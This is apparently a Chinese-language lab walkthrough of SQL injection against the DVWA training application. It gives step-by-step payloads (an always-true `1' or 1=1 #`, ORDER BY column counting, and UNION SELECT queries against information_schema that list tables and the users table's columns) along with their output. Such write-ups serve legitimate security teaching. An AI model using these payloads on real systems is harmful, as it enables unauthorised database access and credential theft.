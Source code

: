 SQL注入的一般步骤：

1. 判断是否存在注入，注入是字符型还是数字型。
2. 测试字段数。
3. 确定显示的顺序和位置。
4. 获取当前数据库。
5. 获取数据库中的表名。
6. 获取表中的字段名。
7. 脱库，爆破数据。

#### 解题思路
直接输入`1' or 1=1 #`，就可以看到当前表下的所有用户和密码。这个是万能秘钥，一般可以尝试测试一下，下面还是按照正常步骤来判断。

1、判断是否存在注入，注入是字符型还是数字型。
输入`1`，查询成功。
输入`1' and '1' = '2`，查询失败，返回结果空。
输入`1' or '123' = '123`，查询成功。
通过这三次测试就可以看出存在字符型注入，因为用到单引号字符，同时最后面是用一个开的单引号，这样就可以闭合源码中的单引号，其实也可以在最后加上#或者--+，输入后就可以注释掉源码中后面的语句内容。

2、测试字段数。
确认是字符型之后就可以猜测字段数。
输入`1' or 1=1 order by 1 #`，查询成功。
输入`1' or 1=1 order by 2 #`，查询成功。
输入`1' or 1=1 order by 3 #`，查询失败。
说明是2个字段，即成功的时候`order by`后面数字最大的。

3、确定显示的顺序和位置。
输入`1' union select 1,2 #`，查询成功，结果显示：

```
ID: 1' union select 1,2 #
First name:admin
Surname:admin

ID: 1' union select 1,2 #
First name:1
Surname:2
```
一般这种联合查询的时候，前面要使用不存在的id如0，这样才能显示`union select`的内容。但本题是显示所有返回结果，所以用存在的id也可以。
`0' union select 1,2 #`，查询成功。

4、获取当前数据库。
输入`1' union select 1,database() #`，查询成功得到数据库名dvwa

5、获取数据库中的表名。
输入`1' UNION select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #`，查询成功得到表名有两个，guestbook与users

注：如果遇到**Illegal mix of collations for operation 'UNION'**报错，一般是mysql版本过低，尝试换一个高版本的mysql，或者用网上教程查一下两个表的字段排序方法是不是一致。

6、获取表中的字段名。
输入`1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #`，查询成功得到users表中的字段有10个，`avatar,failed_login,first_name,last_login,last_name,password,user,user_id,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,USER`
